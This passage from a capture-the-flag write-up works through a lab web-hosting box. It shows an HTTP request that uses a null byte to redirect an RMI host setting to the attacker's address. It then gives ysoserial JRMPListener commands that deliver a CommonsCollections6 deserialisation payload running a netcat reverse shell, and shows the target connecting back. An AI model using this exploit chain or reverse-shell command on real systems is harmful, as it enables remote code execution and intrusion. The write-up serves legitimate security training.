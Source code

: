 Here's the request:

{% code overflow="wrap" %}
```http
POST /hosting/reconfigure HTTP/1.1
Host: www.webhosting.htb
Cookie: JSESSIONID=4D32F3013C3793D48EC21C821B4E640E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
Origin: https://www.webhosting.htb
Referer: https://www.webhosting.htb/hosting/reconfigure
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close



domains.max=5&domains.start-template=%3Cbody%3E%0D%0A%3Ch1%3EIt+works%21%3C%2Fh1%3E%0D%0A%3C%2Fbody%3E&rmi.host=10.10.14.24%00.htb
```
{% endcode %}

The code makes a connection to port 9002 using the RMI service. As such, we can create an RMI server and listen on that port. Googling for exploits shows a CTF Writeup where deserialisation was used to achieve RCE on the remote server.

{% embed url="https://ctftime.org/writeup/12656" %}

I didn't have anything else I could do, so I tried it using the different CommonsCollections there were within `ysoserial`.&#x20;

```
$ /usr/lib/jvm/java-8-openjdk-amd64/bin/java -cp ~/ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections6 'nc -e /bin/bash 10.10.14.24 4444' 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 9002
```

After sending the boave request, we need a method of which to trigger the exploit. From looking at service and our limited stuff, I honestly randomly clicked around the website, and found that by visiting the existing domain created, it triggers the exploit:

```
$ /usr/lib/jvm/java-8-openjdk-amd64/bin/java -cp ~/ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections6 'nc 10.10.14.24 4444 -e /bin/bash'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 9002
Have connection from /10.129.83.85:53446
Reading message...
Sending return with payload for obj [0:0:0, 0]
Closing connection
```
